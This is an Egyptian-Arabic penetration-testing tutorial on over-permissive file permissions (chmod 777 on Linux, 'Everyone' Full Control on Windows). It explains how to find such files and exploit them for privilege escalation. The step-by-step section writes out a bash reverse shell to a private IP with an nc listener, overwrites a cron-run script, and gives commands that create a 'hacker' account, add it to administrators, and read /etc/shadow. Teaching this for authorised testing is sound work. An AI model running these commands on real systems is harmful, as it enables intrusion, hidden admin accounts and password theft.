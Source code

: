 # **1. إيه هي Over-permissive File Permissions؟**

## **الشرح العميق:**
"Over-permissive File Permissions" يعني إن الملفات أو المجلدات في نظام التشغيل عندها صلاحيات مفتوحة أكتر من اللازم، يعني أي حد يقدر يقرأها، يعدلها، أو ينفذها من غير قيود. ده بيحصل بسبب سوء إعدادات من المسؤول (Admin) أو عشان تسهيل حاجة مؤقتة واتنسيت. في لينكس، ده بيظهر كـ `chmod 777`، وفي ويندوز كـ "Everyone" access. المشكلة إن الصلاحيات الزيادة دي بتفتح الباب للمهاجمين عشان يستغلوا الملفات دي في تصعيد الصلاحيات أو تنفيذ هجمات.

- **في لينكس (chmod 777):** 
  - الـ 7 الأولى = المالك (Owner) يقدر يقرأ (r)، يكتب (w)، ينفذ (x).
  - الـ 7 التانية = المجموعة (Group) نفس الحاجة.
  - الـ 7 التالتة = أي حد تاني (Others) نفس الحاجة.
  - يعني الكل يقدر يعمل أي حاجة في الملف.

- **في ويندوز (Everyone):** 
  - لما تعمل "Full Control" لمجموعة "Everyone"، يعني أي مستخدم على النظام (حتى الضيوف) يقدر يعدل أو يمسح أو ينفذ الملف.

## **الأدوات والأوامر العملية:**
### 1. **فحص الصلاحيات في لينكس:**
   - `ls -l /path/to/file`.
   - لو لقيت `-rwxrwxrwx`، يبقى 777 (الكل يقدر يعمل كل حاجة).
   - مثال: `ls -l /etc/script.sh` -> `-rwxrwxrwx 1 root root`.

### 2. **فحص الصلاحيات في ويندوز:**
   - أمر في CMD: `icacls "C:\path\to\file"`.
   - لو لقيت `Everyone:(F)`، يعني Full Control للكل.
   - مثال: `icacls "C:\scripts\test.bat"` -> `Everyone:(F)`.

### 3. **البحث عن ملفات 777 في لينكس:**
   - `find / -perm -777`.
   - هيدور على أي ملف أو مجلد في النظام صلاحياته 777.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب بيتك مفتوح وكاتب على الدولاب: خد اللي عايزه! في لينكس 777 يعني الكل يلعب في الملف، وفي ويندوز Everyone يعني حتى الجيران يقدروا يخشوا يغيروا حاجات."

---

# **2. ليه دي مشكلة كبيرة؟**

## **الشرح العميق:**
الصلاحيات المفتوحة دي بتخلّي أي مستخدم (حتى لو كان ضعيف زي www-data في لينكس أو Guest في ويندوز) يقدر يستغل الملفات دي. لو الملف ده مهم (زي ملف إعدادات، سكربت، أو حتى برنامج حساس)، المهاجم يقدر:
- **يعدل الملف:** يضيف كود ضار.
- **ينفذه:** لو كان سكربت أو برنامج، يشغله بصلاحيات أعلى.
- **يقراه:** يسرق بيانات حساسة زي كلمات سر.

في الـ Pentesting، الملفات دي بتكون كنز لأنها بتفتح الباب لتصعيد الصلاحيات (Privilege Escalation) بسهولة.

## **الأدوات والأوامر العملية:**
### 1. **في لينكس (تعديل ملف 777):**
   - لو لقيت ملف زي `/usr/local/bin/script.sh` بصلاحيات 777:
     - `echo "whoami" > /usr/local/bin/script.sh`.
     - `bash /usr/local/bin/script.sh` -> لو رجعلك `root`، يبقى الملف بيتعمل بصلاحيات عالية.

### 2. **في ويندوز (استغلال Everyone):**
   - لو لقيت ملف زي `C:\Scripts\run.bat` بصلاحيات Everyone:
     - `echo net user hacker password /add > C:\Scripts\run.bat`.
     - نفذه: `C:\Scripts\run.bat` -> هيضيف مستخدم جديد.

### 3. **البحث عن ملفات حساسة:**
   - في لينكس: `find / -perm -777 -type f 2>/dev/null` (يجيب ملفات بس).
   - في ويندوز: `dir /s /p "C:\" | findstr "Everyone"`.

## **خلاصة بالعامية المصرية:**
"المشكلة إنك لما تسيب حاجتك مفتوحة كده، أي حد يقدر يخش يلعب فيها. زي ما تكون سايب فلوسك في الشارع وكاتب عليها: خدها! المهاجم بيلاقي الكنز ده ويستخدمه عشان يبقى الكبير."

---

# **3. إزاي نستغلها في الهجمات؟**
- **الهدف:** لو لقيت ملف بصلاحيات مفتوحة، تستخدمه عشان تاخد صلاحيات أعلى (تصعيد أفقي أو عمودي).
- **مثال واقعي:** لو ملف سكربت بيتنفذ تلقائيًا (زي Cron Job في لينكس) وصلاحياته 777، تقدر تغير محتواه وتاخد shell كـ root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي حاجة مفتوحة كده، زي ما تكون لقيت باب مخزن مفتوح، تدخل تاخد اللي عايزه وتطلع الكبير بتاع الحتة!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- لو داخل سيرفر لينكس:
  - `find / -perm -777 -type f 2>/dev/null`.
- لو داخل ويندوز:
  - `icacls "C:\*"` أو استخدم PowerShell:
    - `Get-Acl -Path "C:\Scripts" | Format-List`.

## **الخطوة 2: إيجاد ملفات قابلة للاستغلال**
- في لينكس:
  - افترض لقيت `/usr/local/bin/backup.sh` بصلاحيات 777:
    - `ls -l /usr/local/bin/backup.sh` -> `-rwxrwxrwx`.
- في ويندوز:
  - افترض لقيت `C:\Scripts\service.exe` بصلاحيات Everyone:
    - `icacls "C:\Scripts\service.exe"` -> `Everyone:(F)`.

## **الخطوة 3: تعديل الملف**
- في لينكس:
  - `echo "/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" > /usr/local/bin/backup.sh`.
  - انتظر لو السكربت بيتعمل تلقائيًا (Cron Job)، أو نفذه لو تقدر:
    - `bash /usr/local/bin/backup.sh`.
  - على جهازك: `nc -lvnp 4444` -> هتاخد shell.
- في ويندوز:
  - `echo net localgroup administrators hacker /add > C:\Scripts\service.bat`.
  - نفذه: `C:\Scripts\service.bat` -> هيضيفك كأدمن.

## **الخطوة 4: تصعيد الصلاحيات**
- في لينكس (من الـ Shell):
  - `id` -> لو `www-data`، حاول تصعد:
  - لو الملف بيتعمل كـ root (زي Cron Job):
    - `id` -> `uid=0(root)` (نجحت).
- في ويندوز:
  - `whoami` -> لو `nt authority\system`، بقيت الكبير.
  - لو لسه user، أعد تشغيل النظام وادخل بالحساب الجديد.

## **الخطوة 5: توثيق واستغلال**
- سجل الملفات اللي لقيتها واللي عدلتها.
- لو وصلت root/System:
  - لينكس: `cat /etc/shadow` (تسريب كلمات السر).
  - ويندوز: `net user` (تشوف كل المستخدمين).
- قدم تقرير للعميل يوضح الخطر.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كنز في بيت مفتوح، غيرت فيه حاجة صغيرة، وفجأة بقيت الكبير بتاع العمارة! الصلاحيات المفتوحة دي طريقك للفوز في اللعبة."

---

# **الخلاصة النهائية:**
Over-permissive File Permissions (زي 777 في لينكس أو Everyone في ويندوز) هي ثغرة كبيرة بتخلّي أي حد يقدر يلعب في الملفات. في الـ Pentesting، دور عليها، استغلها عشان تاخد shell أو تصعد صلاحياتك، وورّي العميل إن النظام بتاعه زي بيت مفتوح لأي حد! بالأدوات زي `find` و`icacls`، تقدر تكتشفها وتستخدمها عشان تبقى البطل بتاع الساحة!